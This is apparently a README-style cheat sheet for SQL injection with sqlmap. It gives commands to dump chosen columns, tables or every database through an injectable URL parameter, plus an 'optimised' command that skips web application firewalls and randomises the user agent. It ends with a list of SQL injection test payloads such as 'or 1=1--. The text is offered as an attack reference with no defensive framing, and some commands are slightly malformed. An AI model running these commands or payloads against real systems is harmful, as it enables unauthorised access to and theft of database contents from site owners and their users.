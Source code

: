 						
<h2>SQLmap Usage</h2>

 **To Fetch Only Column's Data**                        
 ```
  sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump
```
 **To Fetch Only All Column & Its Data**          
 ```
sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump
```

 **To Fetch Entire Database's Data** 		     
 ```
sqlmap - u "url?prm=" -p prm -D dbname  --dump
```

 **To Fetch All Databases**
 ```
 sqlmap - u "url?prm=" -p prm --dbs  --dump
``` 
 *or use --dump-all instead of --dump to fetch all databases's all tables and columns*


<h4>Extra Parameter to Optimise SQLmap's Performance</h4>

 * **Parameters**      `--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o `
 
* **Optimised Url**

```
sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o
```

 **SQL Injection Confirmation**
 
 ```
 or 1=1 

‘or 1=1

“or 1=1

or 1=1–

‘or 1=1–

“or 1=1–

or 1=1#

‘or 1=1#

“or

1=1#

or 1=1/*

‘or 1=1/*

“or 1=1/*

or 1=1;%00

‘or 1=1;%00

“or 1=1;%00

‘or’

‘or

‘or’–

‘or–

or a=a

‘or a=a

“or a=a

or a=a–

‘or a=a —

“or a=a–

or ‘a’=’a’

‘or ‘a’=’a’

“or ‘a’=’a’

‘)or(‘a’=’a’

“)”a”=”a”

‘)’a’=’a

‘or”=’
```
